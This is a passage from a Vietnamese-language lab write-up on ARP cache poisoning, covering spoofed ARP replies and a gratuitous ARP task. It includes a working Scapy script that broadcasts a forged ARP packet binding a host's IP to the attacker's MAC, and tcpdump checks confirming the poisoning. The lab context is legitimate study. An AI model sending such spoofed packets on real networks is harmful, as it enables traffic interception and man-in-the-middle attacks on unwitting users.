     ![](https://i.imgur.com/N8Pn8Os.png)

Vậy là ta đã thực hiện ARP cache poison attack thành công.

- IP của B chưa có trong ARP cache của A

    - Tiếp đến là trường hợp này thì cần phải xóa thông tin Host B trong ARP cache bằng lệnh `arp -d 10.9.0.6` 
    - Tương tự các bước ở trên, bây giờ ta thực hiện code ở terminal attacker để gửi đi một ARP reply và thực hiện kiểm tra bên terminal Host A

    ![](https://i.imgur.com/zo4kSR0.png)
    
    Đã gửi thành công.
    
    ![](https://i.imgur.com/DBaV5nV.png)
    
    Thực hiện `tcpdump -i eth0 -n` cũng thấy được có một ARP reply gửi đến với nội dung là IP của B và MAC của attacker như ở trường hợp trước nhưng kiểm tra ARP cache thì thấy vẫn trống.
    
Có thể thấy chúng ta không thể thực hiện thành công ARP cache poison attack trong trường hợp này.

**3. Task 1C** : Đề yêu cầu xây dựng một ARP gratuitous để ánh xạ địa chỉ IP Host B với địa chỉ MAC của attacker 

Ta có ARP gratuitous là một dạng đặc biệt của ARP request dùng khi cần update các thông tin ARP cache từ tất cả các máy khác với đặc điểm là địa chỉ IP nguồn và IP đích giống nhau, địa chỉ MAC đích là broadcast và không cần ARP reply. 

- IP của B có trong ARP cache của A :

    - Thực hiện giống task 1B ở trên để ARP cache của A có thông tin của Host B 

    ![](https://i.imgur.com/ciUN5yc.png)

    - Bây giờ chúng ta sẽ thực hiện đoạn code ARP gratuitous với các đặc điểm kể trên như sau:

    ```python=
    #!/usr/bin/python3
    from scapy.all import *

    E = Ether( src = '02:42:0a:09:00:69', dst = 'ff:ff:ff:ff:ff:ff')
    A = ARP(hwsrc='02:42:0a:09:00:69',psrc='10.9.0.6',hwdst='ff:ff:ff:ff:ff:ff', pdst='10.9.0.6')
    pkt = E/A
    pkt.show()
    sendp(pkt)
    ```
    Ta thấy đã thực hiện gửi đi thành công.
    
    ![](https://i.imgur.com/2fFvlmH.png)

    - Phía terminal A thực hiện lệnh `tcpdump -i eth0 -n` để kiểm tra traffic thì thấy có một ARP reply với IP của Host B và địa chỉ MAC của attacker và khi chúng ta kiểm tra ARP cache thì thấy địa chỉ MAC của Host B đã thay dổi thành địa chỉ MAC của attacker.

    ![](https://i.imgur.com/WVNN6Dn.png)
